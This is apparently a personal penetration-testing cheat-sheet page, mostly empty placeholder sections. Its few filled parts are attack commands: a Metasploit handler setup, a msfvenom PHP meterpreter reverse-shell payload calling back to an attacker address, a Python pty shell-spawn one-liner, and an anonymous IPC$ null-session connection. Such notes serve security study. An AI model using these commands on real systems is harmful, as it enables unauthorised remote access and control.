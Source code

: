 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```



<details open><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        content 1.2
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details> 
  <summary> <b>Shells</b> </summary>
</details>


<br/>



<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

## Metasploit
#### ./ Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
